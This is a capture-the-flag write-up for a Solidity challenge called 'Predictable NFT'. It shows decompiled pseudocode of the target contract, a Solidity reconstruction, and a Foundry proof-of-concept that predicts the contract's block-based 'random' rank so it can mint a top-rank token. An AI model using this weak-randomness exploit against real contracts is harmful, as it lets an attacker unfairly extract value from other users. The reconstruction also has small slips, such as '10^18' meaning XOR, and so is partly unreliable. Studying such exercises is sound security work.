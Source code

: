 # Predictable NFT

## Challenge

We receive a address on goerli and a poc snippet:

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("goerli");
		vm.deal(hacker, 1 ether);
		nft = address(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);
	}

	function test() public {
		vm.startPrank(hacker);
		uint mintedId;
		uint currentBlockNum = block.number;

		// Mint a Superior one, and do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// ---- hacking time ----

			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}
```


## Solution
As we don't have any source code for this chall i first started by decompiling the bytecode of the given address. I used Palkeoramix decompiler (included in Etherscan) for this, which gave me the pseudocode:
```
# Palkeoramix decompiler. 

def storage:
  id is uint256 at storage 0
  tokens is mapping of uint256 at storage 1

def tokens(uint256 _param1): # not payable
  require calldata.size - 4 >=ΓÇ▓ 32
  return tokens[_param1]

def id(): # not payable
  return id

#
#  Regular functions
#

def _fallback() payable: # default function
  revert

def mint() payable: 
  if call.value != 10^18:
      revert with 0, 'show me the money'
  if id > id + 1:
      revert with 0, 17
  id++
  if sha3(id, caller, block.number) % 100 > 90:
      tokens[stor0] = 3
  else:
      if sha3(id, caller, block.number) % 100 <= 80:
          tokens[stor0] = 1
      else:
          tokens[stor0] = 2
  return id
```

As this code couln't be directly run like this i cleaned it up a bit:

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

contract NFT
{
    uint256 id;
    mapping(uint256 => uint256) tokens;

    function mint() public payable returns (uint256)
    {
        require(msg.value == 10^18, "show me the money");
        require(id < id + 1, "Overflow");

        id = id + 1;

        if((uint256(sha256(abi.encodePacked(id, msg.sender, block.number))) % 100) > 90)
        {
            tokens[id] = 3;
        }
        else
        {
            if((uint256(sha256(abi.encodePacked(id, msg.sender, block.number))) % 100) <= 80)
            {
                tokens[id] = 1;
            }
                
            else
            {
                tokens[id] = 2;
            }
        }
        return id;
    }
}
``

So it's pretty easy. You can just use the same function as the challenge uses (sha256 not keccak256) and see which hash to the modulo of 100 will be above 90.

## POC

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("goerli");
		vm.deal(hacker, 1 ether);
		nft = address(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);
	}

	function test() public {
		vm.startPrank(hacker);
		uint mintedId;
		uint currentBlockNum = block.number;

		// Mint a Superior one, and do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// ---- hacking time ----

            if((uint256(sha256(abi.encodePacked(uint256(0), hacker, currentBlockNum))) % 100) > 90 && mintedId == 0)
            {
				nft.call{value: 1 ether}(abi.encodeWithSignature("mint()"));
				mintedId = 1;
            }

			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}
```

